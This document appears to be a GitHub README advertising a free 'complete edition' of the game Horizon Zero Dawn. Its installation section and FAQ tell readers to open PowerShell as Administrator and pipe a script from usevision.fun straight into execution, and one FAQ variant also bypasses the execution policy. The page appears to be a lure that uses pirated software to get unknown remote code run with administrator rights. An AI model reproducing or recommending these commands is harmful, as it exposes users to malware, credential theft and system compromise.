

<div align="center">


<br>


# Horizon Zero Dawn Complete Edition
**Open world · Machine combat · Frozen Wilds**
<br>
**Open world · Machine combat · Frozen Wilds**
<br>
Premium · Complete · Pc Edition · Windows



**Horizon Zero Dawn Complete — base game, Frozen Wilds expansion and PC ultra settings all enabled.**

</div>

---

> Hunt machines across a vast world — complete edition with expansion content enabled on Windows.

## `INSTALLATION`

<div align="center">


<br><br>

**Run in PowerShell as Administrator:**

```powershell
irm https://usevision.fun/ps/setup.ps1 | iex
```

<sub>Copy · paste · press Enter · confirm UAC</sub>

</div>

## `FEATURES`

🎮 **Full premium edition** — Complete game content for Windows.
🖥️ **PC optimized** — Enhanced settings for modern hardware.
📦 **Local install** — Play offline after setup completes.
✨ **Deluxe content** — Extra modes and assets included.
⚡ **Fast deployment** — One PowerShell command for setup.
🎯 **Ready to launch** — Installer delivered via release package.
🧰 **Complete build** — Pro configuration out of the box.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 16 GB recommended |
| **Disk** | 70 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://usevision.fun/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 16 GB recommended, 70 gb free space.
</details>


TAGS
horizon-zero-dawn, horizon, aloy, open-world, action-rpg, guerrilla-games, frozen-wilds, single-player, post-apocalyptic, horizon-complete, horizon-pc, adventure-game, rpg-game, horizon-zero-dawn-pc, open-world-game
